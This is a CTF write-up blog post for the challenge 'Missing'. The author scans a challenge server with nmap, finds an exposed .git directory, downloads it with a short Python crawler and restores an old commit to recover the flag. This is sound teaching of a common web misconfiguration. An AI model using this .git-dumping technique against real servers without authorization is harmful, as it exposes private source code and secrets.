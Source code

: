 +++
title = "CSEC CTF: Missing"
date = 2020-04-12T01:26:00+10:00
lastmod = 2020-04-12T01:26:00+10:00
tags = [
	"ctf",
	"csec"
	]
categories = [
	"hacking",
	"blog"
]
imgs = []
cover = ""  # image show on top
readingTime = true  # show reading time after article date
toc = true
comments = true
justify = false  # text-align: justify;
single = false  # display as a single page, hide navigation on bottom, like as about page.
license = ""  # CC License
draft = true
+++

# Original challenge

[here](https://ctf.utscyber.org/challenges#Missing)

![Challenge Missing](/img/chell-missing.png)

# Beginning

So the description gave us a [link](http://128.199.239.130:8007). No reason not to start here, right? And we got:


![Just Apache](/img/just-apache.png)

Hmmm... Seems a newly set up Apache server, running a Ubuntu machine, without even serving a page. Not quite informative. Nothing in the page source, either :(

# Port scan

Next thing came up to me was scanning the port: 

```bash
nmap -sC -sV -p8007 128.199.239.130
```
![nmap](/img/nmap8007.png)

Here! We found something interesting: a git repository! Let's try pull this repository down.

# Pull the `.git/` directory down

![Git clone fails](/img/git-clone-fails.png)

Uh oh. Seems it doesn't work the normal way. But it should do no harm if we check the [URL](http://128.199.239.130:8007/.git) with our browser.

![.git directory](/img/8007.git.png)

Looking good. The directory is served in its raw structure. This means we can spider everything down in the worst case. So why not make a spider now ;)

Here it goes:

```python spider.py
import requests
from bs4 import BeautifulSoup
import os

baseurl = "http://128.199.239.130:8007/.git"

def scan(rel):
	print("scanning " + rel)
	if rel.startswith('/'):
		directory = '.' + rel

	if not os.path.exists(directory):
		print(directory + " does not exist, creating")
		os.mkdir(directory)

	url = baseurl + rel
	print("sending get request: " + url)
	soup = BeautifulSoup(requests.get(url).text)
	for td in soup.find_all('td'):
		for a in td.find_all('a'):
			href = a.get('href')
			print("href: " + href)
			if href.endswith('/'):
				if a.contents[0] != 'Parent Directory':
					scan(rel + href)
			else:
				open(directory + href, 'wb').write(requests.get(baseurl + rel + href).content)

scan('/')
```

Let's save it as `spider.py` (don't judge this name) in a appropriate directory, because it downloads everything to the PWD. Now let's run this code!

```bash
➜  missing ls
spider.py
➜  missing python3 spider.py 
scanning /
sending get request: http://128.199.239.130:8007/.git/
href: /
href: COMMIT_EDITMSG
href: HEAD
href: Icon
href: ORIG_HEAD
href: config
href: description
href: hooks/
scanning /hooks/
./hooks/ does not exist, creating
sending get request: http://128.199.239.130:8007/.git/hooks/
href: /.git/
href: Icon
... (million lines ommited)
href: tags/
scanning /refs/tags/
./refs/tags/ does not exist, creating
sending get request: http://128.199.239.130:8007/.git/refs/tags/
href: /.git/refs/
href: Icon
➜  missing git:(master) ls
COMMIT_EDITMSG  description  hooks  index  logs     ORIG_HEAD  spider.py
config          HEAD         Icon   info   objects  refs
```

(To clarify, 'missing' is the directory name in my terminal prompt, they were colored in my terminal but not here)

Hooray! Now we got the repository. My zsh even told me we are on `master` branch.

# Working git

First of all, let's see the commit history of course.

![Git log](/img/gitlog.png)

The third commit says 'hide flag'. If it is THE FLAG we are looking for (apprently), then we should check what it has hidden. Let's go checkout the Initial Commit.

![Checkout fatal](/img/checkout-fatal.png)

Hmmm... Didn't go well. But what does it mean? 

Luckily, Google has always been my friend, and I found this [question](https://stackoverflow.com/questions/9262801/fatal-this-operation-must-be-run-in-a-work-tree), and the comments on the answer proved very helpful.

Turns out the `.git/` directory is a hidden directory which `git` creates when you initialize your repository, and where all the commit snapshots are saved. That is, you can restore any file of any version with this directory. But the files you normally work with should be the parent directory of `.git/`.

Then this would be easy. Let what belongs to `.git/` go to `.git/`, and make our 'missing' directory its parent.

![Move .git](/img/move-git.png)

Now everything is normal and familiar again. Let's finish what was to be done.

![Flag retrieved](/img/flag-retrieved.png)
